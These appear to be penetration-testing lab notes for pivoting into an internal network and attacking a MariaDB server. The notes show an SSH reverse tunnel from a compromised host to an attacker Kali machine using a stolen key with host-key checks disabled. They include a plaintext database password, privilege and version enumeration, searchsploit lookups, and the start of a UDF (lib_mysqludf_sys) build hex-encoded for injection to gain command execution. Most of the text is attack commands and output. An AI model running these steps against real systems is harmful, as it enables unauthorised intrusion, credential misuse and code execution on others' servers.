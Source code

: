in shell:
```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.165
```
`-f` run in background


# Targeting the database
```
mysql --host=127.0.0.1 --port=13306 --user=wp -p 
Lv9EVQq86cfi8ioWsqFUQyU
```

look at what privilege we have:
```
SHOW Grants;
GRANT USAGE ON *.* TO 'wp'@'%' IDENTIFIED BY PASSWORD '*61163AE4B131AB0E43F07BE7B' |
GRANT SELECT, INSERT, UPDATE, DELETE ON `wordpress`.* TO 'wp'@'%'
```

```
MariaDB [(none)]> select @@hostname, @@tmpdir, @@version, @@version_compile_machine, @@plugin_dir;
+------------+----------+-----------------+---------------------------+-------------------+
| @@hostname | @@tmpdir | @@version       | @@version_compile_machine | @@plugin_dir      |
+------------+----------+-----------------+---------------------------+-------------------+
| zora       | /var/tmp | 10.3.20-MariaDB | x86_64                    | /home/dev/plugin/ |
+------------+----------+-----------------+---------------------------+-------------------+
1 row in set (0.026 sec)

```

```
searchsploit maria
```
non of the exploit work for current version of maria

search for more generic `mysql` exploit, since maria is built on mysql
```
searchsploit mysql
```

UDF user-defined function show up often???? how did you get here?

find an interesting github repo:
```
git clone https://github.com/mysqludf/lib_mysqludf_sys.git
```

to compile, install some packages:
```
sudo apt update && sudo apt install default-libmysqlclient-dev libmariadbd-dev
```

modify make file, to make it include maria's header file. hmmmm..

output so to shellcode:
```
xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
```
